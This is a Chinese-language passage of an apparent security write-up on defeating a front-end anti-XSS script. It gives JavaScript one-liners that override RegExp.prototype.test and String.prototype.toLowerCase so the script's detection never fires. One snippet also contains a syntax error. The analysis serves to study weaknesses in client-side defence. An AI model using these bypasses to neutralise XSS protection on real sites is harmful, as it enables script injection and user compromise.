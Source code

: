 
首先重写了XMLHttpRequest原型对象的send方法，接着还是使用 RegExp.test 进行正则匹配。

如此，只要重写 RegExp 的 test 方法，使其永远返回 false，那么这些拦截代码就会全部失效了：

    
    
    #!js
    RegExp.prototype.test = function(){return !1}
    

这就是第一种绕过方式，仅一行代码，就让“【永别了,XSS攻击!】”的护心镜彻底失效了，看来想要根治 XSS 还任重道远。

当然了如果自己想要使用 test 方法的话，事先应该将该方法保存一下。

如果在绕过护心镜的同时，又不想破坏网站业务代码（毕竟 RegExp 经常被用到），那么可以扩充一下：

    
    
    #!js
      _test = RegExp.prototype.test;
      RegExp.prototype.test = function (n) {
        n.slice(0, 4) === 'evil' && return _test.call(this, n);
        return !1;
      }
    }
    

这样可以实现自定义规则对内容是否放行。

同样，在 `Hook_CreateElement`、`Hook_Image`、`Hook_Source` 这三个模块中，在进行白名单校验前， 会对 tag（html标签名：script、iframe等）进行匹配，若匹配不成功，则不会进入报警拦截流程， 代码如下（以Hook_Source为例）：

    
    
    #!js
    if (o.src || o.href || o.data)
      if (o.tagName 
        && (o.tagName.toLowerCase() == "frame"
          || o.tagName.toLowerCase() == "iframe"
          || o.tagName.toLowerCase() == "link"
          || o.tagName.toLowerCase() == "object"
          || o.tagName.toLowerCase() == "embed"
          || o.tagName.toLowerCase() == "img"
          || o.tagName.toLowerCase() == "source"
          || o.tagName.toLowerCase() == "video")) {
        //进入拦截流程...
      }
    

和劫持 `RegExp` 的做法相似，通过对 `toLowerCase` 方法的劫持，使其永远匹配不上正确的标签名，能达到同样的效果：

    
    
    #!js
    String.prototype.toLowerCase = function () {
      return 'never';
    }
    